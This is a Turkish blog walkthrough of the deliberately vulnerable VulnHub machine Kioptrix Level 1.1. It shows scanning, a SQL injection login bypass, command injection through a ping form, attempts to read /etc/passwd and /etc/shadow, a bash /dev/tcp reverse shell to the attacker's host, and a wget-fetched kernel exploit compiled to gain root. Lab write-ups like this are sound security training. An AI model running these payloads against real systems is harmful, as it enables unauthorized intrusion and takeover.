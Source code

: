 ```yaml
---  
layout: post
title: Kioptrix1.1#2 Walkthrough
Date: '2017-4-21 00:10 +0300'
categories: blog
---  
```


Arkadaşlar merhaba;

Bu yazımda [VulnHub](https://www.vulnhub.com) üzerinde yayınlanmış olan Kioptrix1.1#2 sanal makinasının çözümünü anlatmaya çalışacağım.

__Linkler__
	
[Resmi sitesi](http://www.kioptrix.com)  
[Vulnhub Bağlantısı](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)  

__Çözüm__

İlk olarak benim kullandığım VMware’de Kali’mi ve Kioptrix’i ayaklandırıyorum. Tabi ki de yapacağım ilk işlem hedef makinamın IP adresini bulmak olacak. Bunun için ilk önce Kali makinamın IP adresini buluyorum.  
```
$ ifconfig
```
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/1.png)

Daha sonra Kali’min bulunduğu scope taki IP’leri tarayarak devam ediyorum.  
```
$ netdiscover -i eth0 -r 192.168.1.0/24
```
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/2.png)

Ve gördüğümüz gibi IP adresim geldi😊 IP adresimi bulduktan sonra yapacağımız şey hemen bir nmap taraması yapmak olacak ki açık portlardan zafiyet bulabilecek miyim kontrol etmeliyim.  
```	
$ nmap -sS -sV 192.168.1.22
```  
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/3.png)

Gördüğümüz gibi açık 6 adet port bulunmakta. Burada hemen 80 portunda çalışan HTTP servisi dikkatimi çekiyor ve tarayıcımdan hedef makinanın IP adresini girerek web sitesinde ne var ona bakıyorum.  

![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/4.png)

Ve karşıma bir admin paneli geliyor. MySQL servisi kullanıldığını da bildiğim için (3306 portu) hemen sql injection denemesi yapıyorum 😊
Bu noktada sayfanın arka planda aşağıdaki gibi bir SQL Query kullandığını düşünerek  
```
SELECT * FROM users WHERE username='' AND password=''
```
Aşağıdaki sql injection kodunu username ve password bölümlerine girerek ,  
```	
1’ or ‘1’=’1
```
Sorguyu aşağıdaki şekle getirmeyi amaçlıyorum:  

```
SELECT * FROM users WHERE username='1' or '1'='1' AND password='1' or '1'='1'
```
Eğer tahminim doğruysa basitçe username 1 ise veya 1=1 ise ve password de 1 veya 1=1 ise beni içeri al demiş oluyorum😊 ki herkesin bildiği gibi 1=1 her zaman doğrudur ve sorguyu bu şekilde bypass etmiş olurum.  
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/5.png)

Mükemmel!  Sorguyu aştık.😊 Karşıma ping atmak için bir komut paneli geldi. Kendi hostuma ping atarak deniyorum.  
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/6.png)

Evet ping komutu doğru çalışıyor ve gelen sayfadan gördüğüm üzere (url’ye bakabilirsiniz /pingit.php) sayfa php kodları ile çalışıyor. Ben de hemen bir ; koyarak bypass denemesi yapıyorum.  
```
$ whoami
```
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/7.png)

Oldu! 😊 Sistem komutlarını çalıştırabildiğimi görüyorum ve ilk önce parolaları bulabileceğim /etc/passwd ve /etc/shadow dosyalarını okumaya çalışıyorum.  

![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/8.png)
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/9.png)

Resimlerden görüldüğü üzere /etc/shadow dosyasını okuyamıyorum. Başka bir yol denemem lazım.  
Ben de Reverse Shell almayı deniyorum.   
İlk önce netcat ile 443 portumu dinlemeye açıyorum.  
```
$ nc -nvlp 443
``` 
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/10.png)

Daha sonra reverse Shell almak için pentestmonkey.net sitesinden bash shellini alıyorum ve kendime göre düzenleyip sitedeki ping command promptuma yazıyorum.  
```
$ bash -i >& /dev/tcp/192.168.1.22/443 0>&1 (Buradaki ip adresi kalimin IP adresi ve port da dinlemeye açtığım port.)
```
Submit butonuna bastığımda hedef makinaya bağlantı sağlandığını ve yetkisiz bir Shell ile komut çalıştırabildiğimi görüyorum 😊  

![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/11.png)

Şimdi yapmam gereken yetki yükseltip sistemde root olmaya çalışmak. Aşağıdaki komutları çalıştırarak hedef makinamın hangi işletim sistemini kullandığını ve versiyon bilgilerini öğreniyorum.  
```
$  cat /etc/*-release
```
```
$  cat /proc/version
```
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/12.png)

Versiyon bilgilerini de öğrendiğime göre internette ufak bir Google search ile bu Linux versiyonunda yetki yükseltme sağlayan https://www.exploit-db.com/exploits/9542/ bu exploiti buluyorum. Şimdi exploitimi kendi Kali’me indirip hedef makinaya kendi Kali’mden wget ile çekiyorum.
Bunu yapmak için indirdiğim exploiti kendi Kali’mde /var/www/html dosyasına atıp apache servisimi başlatıyorum ki wget ile ulaşabileceğim internete açık bir sunucu olsun.  
```
$ service apache2 start ( Bunu kendi Kali’mde yapıyorum. )
```
```
$ cd /tmp ( tmp dizinine geçiyorum ki dosya yazıp okuyabileceğim bir yer olmalı. Bunu hedef makinada yapıyorum exploiti çekeceğim yer burası olacak. )
```
```
$ wget http://192.168.1.23/9542.c ( Bunu Shell ile ulaştığım hedef makinada yapıyorum. )
```
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/13.png)

Şimdi hedef makinaya yüklediğim exploit kodu C dilinde yazılmış olduğu için GCC ile compile ediyorum ve kodumu çalıştırıyorum. ( Artık exploiti hedef makinaya çektiğim için GCC ile compile ve kodu çalıştırma işlemlerimi hedef makina üzerinde yapıyorum. )  
```
$ gcc 9542.c 
```
```
$ ./a.out
```
Daha sonra `whoami` komutu çalıştırdığımda sistemde artık root olduğumuzu görebiliriz.  
```
$ whoami
```
![]({{ AUCyberClub.github.io }}/assets/img/kioptrix1_1-2/14.png)

---  
[Talha Eryaşar](https://twitter.com/talha_eryasar)
